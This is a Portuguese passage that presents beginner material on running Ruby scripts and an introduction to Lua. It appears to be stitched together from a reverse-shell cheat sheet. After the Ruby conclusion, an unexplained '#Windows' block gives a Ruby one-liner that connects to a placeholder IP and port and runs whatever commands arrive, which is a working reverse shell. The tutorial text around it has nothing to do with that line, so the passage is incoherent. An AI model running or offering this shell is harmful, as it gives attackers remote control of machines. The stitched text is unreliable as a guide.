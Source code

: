 ### Executando um script Ruby

Depois de instalar o Ruby, você pode executar scripts Ruby usando o prompt de comando. Siga as etapas abaixo para executar um script Ruby:

1. Crie um novo arquivo com a extensão `.rb`, por exemplo, `meu_script.rb`.
2. Abra o arquivo em um editor de texto e escreva seu código Ruby.
3. Salve o arquivo e feche o editor de texto.
4. Abra o prompt de comando e navegue até o diretório onde o arquivo `.rb` está localizado.
5. Digite `ruby meu_script.rb` no prompt de comando e pressione Enter para executar o script Ruby.

### Exemplo de script Ruby

Aqui está um exemplo simples de um script Ruby que exibe uma mensagem na tela:

```ruby
puts "Olá, mundo!"
```

Salve o código acima em um arquivo chamado `meu_script.rb` e execute-o usando o prompt de comando. Você verá a mensagem "Olá, mundo!" impressa na tela.

### Conclusão

Ruby é uma linguagem de programação poderosa e fácil de aprender. Com a instalação correta e um editor de texto, você pode começar a escrever e executar scripts Ruby em pouco tempo. Experimente e divirta-se explorando o mundo da programação com Ruby!
```bash
#Windows
ruby -rsocket -e 'c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
## Lua

Lua é uma linguagem de programação leve e poderosa que é frequentemente usada para scripting em jogos e aplicativos embutidos. É conhecida por sua simplicidade, eficiência e facilidade de integração com outras linguagens.

### Introdução

Lua é uma linguagem interpretada, o que significa que o código Lua é executado por um interpretador em vez de ser compilado em código de máquina. Isso torna o desenvolvimento e a execução de scripts Lua rápidos e flexíveis.

### Características

- **Simplicidade**: Lua possui uma sintaxe simples e elegante, tornando-a fácil de aprender e usar.
- **Eficiência**: Lua é projetada para ser rápida e eficiente, com um tempo de execução leve e um consumo de recursos mínimo.
- **Portabilidade**: Lua é altamente portátil e pode ser executada em uma ampla variedade de plataformas, incluindo Windows, Linux, macOS e dispositivos embarcados.
- **Integração**: Lua pode ser facilmente integrada com outras linguagens, como C e C++, permitindo que você estenda a funcionalidade de seus aplicativos existentes.
- **Extensibilidade**: Lua é altamente extensível, permitindo que você crie suas próprias bibliotecas e módulos para estender suas capacidades.
